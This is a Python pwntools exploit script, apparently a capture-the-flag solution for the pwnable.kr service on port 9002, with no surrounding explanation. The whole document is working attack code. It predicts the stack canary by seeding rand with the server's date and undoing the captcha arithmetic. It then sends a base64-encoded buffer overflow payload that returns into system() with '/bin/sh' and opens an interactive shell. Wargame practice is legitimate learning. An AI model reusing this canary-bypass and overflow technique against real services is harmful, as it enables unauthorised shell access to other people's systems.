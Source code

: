 ```python
def get_date():
    req = requests.get("http://pwnable.kr")
    date = req.headers.get("date").split(", ")[1].split(" GMT")[0]

    t_time = time.strptime(date, "%d %b %Y %H:%M:%S")
    global time_stamp
    time_stamp = int(time.mktime(t_time)) - 14400   # time on website later 4 hours with localhost time
                                                    # because there are different time zone

def calc_canary(time_stamp, captcha):
    lib.srand(time_stamp)
    for i in range(8):
        rands.append(lib.rand())

    print(rands)
    global canary
    canary = captcha -rands[4] + rands[6] - rands[7] - rands[2] + rands[3] - rands[1] - rands[5]
    canary &= 0xFFFFFFFF

r = remote("pwnable.kr", 9002)

get_date()

captcha = int(r.recvlines(2)[1].decode().split(": ")[1])

calc_canary(time_stamp, captcha)

# p = process(executable="./canary", argv=["./canary", str(time_stamp), str(captcha)])
# canary = int(p.recvline().decode(), 16)

r.sendline(str(captcha).encode())

payload = b"k"*(512) + p32(canary) + b"k"*12 + p32(system_addr) + p32(gbuf_addr+1+716)
b64e_payload = b64e(payload).encode()

r.sendlineafter(b"Encode your data with BASE64 then paste me!\n", b64e_payload + b"\0" + b"/bin/sh")
r.interactive()
```

